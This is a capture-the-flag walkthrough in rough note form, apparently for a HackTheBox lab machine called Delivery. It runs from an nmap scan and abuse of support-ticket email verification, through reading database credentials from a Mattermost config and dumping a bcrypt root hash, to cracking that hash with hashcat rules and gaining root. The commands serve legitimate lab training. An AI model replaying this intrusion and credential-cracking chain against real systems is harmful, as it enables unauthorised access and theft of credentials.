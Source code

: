 # User

scan

nmap -sS -T4 -A 10.10.10.222

22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

80/tcp open  http    nginx 1.14.2


#open the web page

#add ip to the hosts file

nano /etc/hosts


#first I tried to signup and add email

#then I realized that the machine wasn't on the internet

#open new ticket

#if you have any error then change the email address beacuse someone else used it

#save the ticket id and the email we will use those

ticket id: 4701529

4701529@delivery.htb


#now we go to Check Ticket Status

#type the email and tickt id

#now,we go to Mattermost server and create an account with the ticket number email then refresh the ticket

#if the server didn't open add the server ip o the hosts

#You have to use ticket number email it gives you when you create the ticket

8113433@delivery.htb.

now what happened that you taked the email that was supposed to be the support email and creat the Mattermost server with it

# the verfing email goes to the ticket view page

#It’s kind of a hack, instead of going to an email it went to the ticket page instead

That should have went to an email address, not the details of the ticket

So you just tricked the application into creating an account when before it wouldn’t let you

#copy/paste that huge link


#the root saied

@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail!

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

#now we have the credintials to access the server

username:maildeliverer

password:Youve_G0t_Mail!

#using ssh to enter

Bingo now you own the user

# Root

#now we are using maildeliverer

#we will go to the database

/opt/mattermost

find . -type f -name ‘*.config’

json.config

#in sqlsettings

mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)

bingo!!

#credentials to a database

#sql username and password

username:mmuser

pass:Crack_The_MM_Admin_PW

#now we enter the database

mysql --host=127.0.0.1 --user=mmuser --password=Crack_The_MM_Admin_PW


show databases;
Database           |
+--------------------+
| information_schema |
| mattermost         |

use mattermost;

show tables;

Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+

select * from Users;

| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"}   |         0 |           |


#we found the hash for the password for the root

now lets get back to the hint that was in 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

so now we know the password is a pattern from PleaseSubscribe!

#we need to know the type of the hash

#search for it at https://hashcat.net/wiki/doku.php?id=example_hashes

#Do Ctrl + f on the page and type $2a$ then which one matches

it is bcrypt $2*$, Blowfish (Unix)


echo PleaseSubscribe! > pass.txt is your wordlist
echo $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO > h.hash is your hash

ls -l /usr/share/hashcat/rules/

#And pick one, one of them will work

root@kali:/usr/share/hashcat/rules# hashcat -m 3200 hash.hash pass.txt -r best64.rule

maildeliverer@Delivery:~$ su root

Password: 
root@Delivery:/home/maildeliverer# whoami

root

cat /root/root.txt
